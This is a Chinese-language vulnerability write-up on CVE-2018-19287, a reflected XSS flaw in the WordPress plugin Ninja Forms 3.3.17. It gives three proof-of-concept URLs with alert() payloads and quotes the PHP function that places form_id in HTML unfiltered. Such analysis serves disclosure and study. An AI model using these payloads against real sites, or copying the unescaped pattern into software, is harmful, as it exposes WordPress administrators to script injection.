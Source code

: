 （CVE-2018-19287）WordPress Plugin - Ninja Forms 3.3.17 XSS
===========================================================

一、漏洞简介
------------

Ninja
Forms是WordPress的终极免费表单创建工具。使用简单但功能强大的拖放式表单创建器在几分钟内构建表单。对于初学者，可以快速轻松地设计复杂的表单，绝对没有代码。对于开发人员，利用内置的钩子，过滤器，甚至自定义字段模板，使用Ninja
Forms作为框架，在表单构建或提交的任何步骤中执行您需要的任何操作。

二、漏洞影响
------------

三、复现过程
------------

下面是我从exploit-db上复制的POC，为了方便判断，修改了弹窗的内容。

    http://0-sec.org/wp-admin/edit.php?s&post_status=all&post_type=nf_sub&action=-1&form_id=1&nf_form_filter&begin_date&end_date="><img+src=mtk+onerror=alert(/POC1/);//&filter_action=Filter&paged=1&action2=-1
    http://0-sec.org/wp-admin/edit.php?s&post_status=all&post_type=nf_sub&action=-1&form_id=1&nf_form_filter&begin_date="><img+src=mtk+onerror=alert(/POC2/);//&end_date&filter_action=Filter&paged=1&action2=-1
    http://0-sec.org/wp-admin/edit.php?post_status=trash&post_type=nf_sub&form_id=1"><script>alert(/POC3/);</script>&nf_form_filter&paged=1

我们只要直接复制POC到浏览器的地址栏回车即可触发漏洞。

下图是触发第一个POC的图：

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-19287)WordPressPlugin-NinjaForms3.3.17XSS/media/rId24.png)

下图是触发第二个POC的图：

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-19287)WordPressPlugin-NinjaForms3.3.17XSS/media/rId25.png)

下图是触发第三个POC的图：

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-19287)WordPressPlugin-NinjaForms3.3.17XSS/media/rId26.png)

### 漏洞分析过程

笔者直接从POC方面入手，简单分析一下漏洞的成因。由于方法是一样的，笔者是一个懒人，这里就只分析了POC3的成因。

通过POC查找关键词nf\_sub，确定了核心文件\\wp-content\\plugins\\ninja-forms\\includes\\Admin\\Menus\\Submissions.php。

下图是Submissions.php部分内容：

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-19287)WordPressPlugin-NinjaForms3.3.17XSS/media/rId28.png)

通过粗略的阅读，发现这个函数是导致POC3成功弹窗的关键。

下图是Submissions.php文件第71-104行内容：

    public function change_views( $views )

    {

        // Remove our unused views.

        unset( $views[ 'mine' ] );

        unset( $views[ 'publish' ] );

        // If the Form ID is not empty...

        if( ! empty( $_GET[ 'form_id' ] ) ) {

            // ...populate the rest of the query string.

            $form_id = '&form_id=' . $_GET[ 'form_id' ] . '&nf_form_filter&paged=1';

        } else {

            // ...otherwise send in an empty string.

            $form_id = '';

        }

        // Build our new views.

        $views[ 'all' ] = '<a href="' . admin_url( 'edit.php?post_status=all&post_type=nf_sub'  ) . $form_id . '">'

                        . __( 'Completed', 'ninja-forms' ) . '</a>';

        $views[ 'trash' ] = '<a href="' . admin_url( 'edit.php?post_status=trash&post_type=nf_sub' ) . $form_id . '">'

                            . __( 'Trashed', 'ninja-forms' ) . '</a>';

        // Checks to make sure we have a post status.

        if( ! empty( $_GET[ 'post_status' ] ) ) {

            // Depending on the domain set the value to plain text.

            if ( 'all' == $_GET[ 'post_status' ] ) {

                $views[ 'all' ] = __( 'Completed', 'ninja-forms' );

            } else if ( 'trash' == $_GET[ 'post_status' ] ) {

                $views[ 'trash' ] = __( 'Trashed', 'ninja-forms' );

            }

        }

        return $views;

    }

从上面代码，我们可以看到，form\_id并没有被过滤，导致XSS存在。

    $form_id = '&form_id=' . $_GET[ 'form_id' ] . '&nf_form_filter&paged=1';

四、参考链接
------------

> <https://www.exploit-db.com/exploits/45880/>
>
> <https://www.freebuf.com/vuls/190411.html>
